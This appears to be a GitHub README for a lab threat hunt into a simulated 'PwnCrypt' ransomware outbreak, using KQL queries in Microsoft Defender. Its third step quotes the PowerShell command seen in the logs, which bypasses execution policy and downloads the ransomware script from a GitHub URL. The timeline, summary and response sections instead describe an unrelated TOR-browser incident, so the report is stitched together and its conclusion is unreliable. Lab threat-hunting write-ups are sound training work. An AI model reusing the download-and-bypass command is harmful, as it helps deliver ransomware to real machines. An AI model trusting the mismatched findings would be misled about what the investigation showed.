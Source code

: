 
<p align="center">
  <img src="https://github.com/user-attachments/assets/b7afca87-3ed2-42cd-b8a1-0a0e21d19d15"
</p>

# Threat Hunt Report:  Zero-Day-Ransomware-PwnCrypt-Outbreak
- [Scenario Creation](https://github.com/JordanDanielWest/threat-hunting-scenario-tor/blob/main/threat-hunting-scenario-tor-event-creation.md)

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Powershell

##  Scenario

A new ransomware strain named PwnCrypt has been reported in the news, leveraging a PowerShell-based payload to encrypt files on infected systems. The payload, using AES-256 encryption, targets specific directories such as the C:\Users\Public\Desktop, encrypting files and prepending a .pwncrypt extension to the original extension. For example, hello.txt becomes hello.pwncrypt.txt after being targeted with the ransomware. The CISO is concerned with the new ransomware strain being spread to the corporate network and wishes to investigate.

### High-Level Ransomware IoC Discovery Plan

- **Check `DeviceFileEvents`** for any files with `pwncrypt`.
- **Check `DeviceProcessEvents`** to determine delivery method.

---

## Steps Taken

### 1. Searched the `DeviceFileEvents` Table

I ran a query in DeviceFileEvents that revealed a file named `pwncrypt.ps1` created at `2025-04-17T20:14:28.4324263Z` confirming that the Pwncrypt Ransomware has been run and infected our corporate network.

Folder Path: `C:\ProgramData\pwncrypt.ps1`

**Query used to locate events:**

```kql
DeviceFileEvents
| where DeviceName == "edr-machine"
| where FileName has_any ("pwncrypt")
| sort by Timestamp desc
```
![image](https://github.com/user-attachments/assets/03e9c92a-5852-466c-9c6e-19d11492f91d)

---
### 2. Searched the `DeviceFileEvents` Table

I ran a query that revealed several files created with the “pwncrypt” extension.
- Files: `1308_EmployeeRecords_pwncrypt.csv`, `6664_ProjectList_pwncrypt.csv`, `2669_CompanyFinancials_pwncrypt.csv`.


**Query used to locate events:**
```kql
DeviceFileEvents
| where DeviceName == "edr-machine"
| where FileName has_any ("pwncrypt")
| sort by Timestamp desc
| project Timestamp, ActionType, FileName, FolderPath, InitiatingProcessAccountName, InitiatingProcessParentFileName, InitiatingProcessCommandLine
| where ActionType  == "FileCreated"
| where Timestamp >= datetime(2025-04-17T20:14:28.4324263Z)
```
![image](https://github.com/user-attachments/assets/2542925f-a21c-4154-806a-1e40613a3390)
![image](https://github.com/user-attachments/assets/236da8c4-50dd-41db-8d8e-6647e9c8c868)









### 3. Searched the `DeviceProcessEvents` Table

I next checked the DeviceProcessEvents table in order to determine how the files were encrypted. I found evidence of manual `cmd.exe` of powershell running 
- Additionally, the `InitiatingProcessCommandLine` table revealed the script that was run:
  - `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1`
    - The command opens PowerShell, tells it to ignore all safety settings(`ExecutionPolicy Bypass `),
    - then downloads a suspicious script called pwncrypt.ps1 from the internet(`Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1`)
    - and saves it in a system folder(`C:\ProgramData\pwncrypt.ps1`)
**Query used to locate event:**

```kql

DeviceProcessEvents
| where DeviceName == "edr-machine"
| where FileName endswith "powershell.exe"
| where ProcessCommandLine contains "pwncrypt.ps1"
| project Timestamp, ProcessCommandLine, InitiatingProcessCommandLine, InitiatingProcessAccountName
| sort by Timestamp desc
```
![image](https://github.com/user-attachments/assets/e50340a2-bed0-42bf-95b4-581d12ea59a4)



---


---

## Chronological Event Timeline 

### 1. File Download - TOR Installer

- **Timestamp:** `2025-04-14T21:01:37.1940431Z`
- **Event:** The user "ds9-cisco" downloaded a file named `tor-browser-windows-x86_64-portable-14.0.9.exe` to the Downloads folder.
- **Action:** File download detected.
- **File Path:** `C:\Users\DS9-CISCO\Downloads\tor-browser-windows-x86_64-portable-14.0.9.exe`

### 2. Process Execution - TOR Browser Installation

- **Timestamp:** `2025-04-14T21:04:58.6035812Z`
- **Event:** The user "ds9-cisco" executed the file `tor-browser-windows-x86_64-portable-14.0.9.exe` in silent mode, initiating a background installation of the TOR Browser.
- **Action:** Process creation detected.
- **Command:** `tor-browser-windows-x86_64-portable-14.0.9.exe /S`
- **File Path:** `C:\Users\DS9-CISCO\Downloads\tor-browser-windows-x86_64-portable-14.0.9.exe`

### 3. Process Execution - TOR Browser Launch

- **Timestamp:** `2025-04-14T21:05:30.6659937Z`
- **Event:** User "ds9-cisco" opened the TOR browser. Subsequent processes associated with TOR browser, such as `firefox.exe` and `tor.exe`, were also created, indicating that the browser launched successfully.
- **Action:** Process creation of TOR browser-related executables detected.
- **File Path:** `C:\Users\DS9-CISCO\Desktop\Tor Browser\Browser\TorBrowser\Tor\tor.exe`

### 4. Network Connection - TOR Network

- **Timestamp:** `2025-04-14T21:05:38.1904337Z`
- **Event:** A network connection to IP `194.147.140.107` on port `443` by user "ds9-cisco" was established using `tor.exe`, confirming TOR browser network activity.
- **Action:** Connection success.
- **Process:** `tor.exe`
- **File Path:** `c:\users\ds9-cisco\desktop\tor browser\browser\torbrowser\tor\tor.exe`

### 5. Additional Network Connections - TOR Browser Activity

- **Timestamps:**
  - `2025-04-14T21:05:40.7830533Z` - Connected to `116.12.180.234` on port `443`.
  - `2025-04-14T21:06:46.2718388Z` - Local connection to `194.147.140.107` on port `443`.
- **Event:** Additional TOR network connections were established, indicating ongoing activity by user "ds9-cisco" through the TOR browser.
- **Action:** Multiple successful connections detected.

### 6. File Creation - TOR Shopping List

- **Timestamp:** `2025-04-14T21:18:38.2736577Z`
- **Event:** The user "ds9-cisco" created a file named `tor-shopping-list.txt` on the desktop, potentially indicating a list or notes related to their TOR browser activities.
- **Action:** File creation detected.
- **File Path:** `C:\Users\DS9-CISCO\Desktop\tor-shopping-list.txt`

---

## Summary

The user "ds9-cisco" on the "edr-machine" device initiated and completed the installation of the TOR browser. They proceeded to launch the browser, establish connections within the TOR network, and created various files related to TOR on their desktop, including a file named `tor-shopping-list.txt`. This sequence of activities indicates that the user actively installed, configured, and used the TOR browser, likely for anonymous browsing purposes, with possible documentation in the form of the "shopping list" file.

---

## Response Taken

TOR usage was confirmed on the endpoint `edr-machine` by the user `ds9-cisco`. The device was isolated, and the user's direct manager was notified.

---# threat-hunting-scenario-tor
